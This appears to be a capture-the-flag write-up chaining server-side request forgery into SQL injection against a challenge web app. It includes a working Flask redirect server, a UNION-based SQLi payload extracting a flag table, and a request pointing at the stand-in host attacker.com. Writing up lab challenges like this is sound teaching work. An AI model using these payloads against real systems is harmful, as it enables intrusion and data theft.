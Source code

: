 # SSRF to SQL injection

When you create a new listing, give it an image url that you control, that redirects the server to http://127.0.0.1:5000/api/users?username=

This is because the api routes in the code are whitelisted with @localhost_only
It also looks for the Content-Type header to make sure it contains the word 'image'
The username parameter is vuln to SQLi

Example of malicious flask server:
```
from flask import Flask, redirect, Response

app = Flask(__name__)

@app.route('/redirect.png')
def redirect_to_internal():
    response = Response()
    response.headers['Content-Type'] = 'image'
    response.headers['Location'] = 'http://127.0.0.1:5000/api/users?username=%27%20OR%201=1%20UNION%20SELECT%20NULL,flag,NULL%20FROM%20flag%20limit%201%20%2d%2d%2d'
    response.status_code = 302
    return response

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```

## exploiting
```
SQLi payload url-decoded:
' OR 1=1 UNION SELECT NULL,flag,NULL FROM flag limit 1 ---

POST to /create with your malicious image url
name=test123&description=test123&image_url=http%3A%2F%2Fattacker.com%3A8000%2Fredirect.png

Then you should get an error that looks like:
Invalid image URL. Please provide a valid image URL. Response was: [ { "id": null, "username": "SIVUSCG{whoopsies_SSRF_here!}" } ]
```
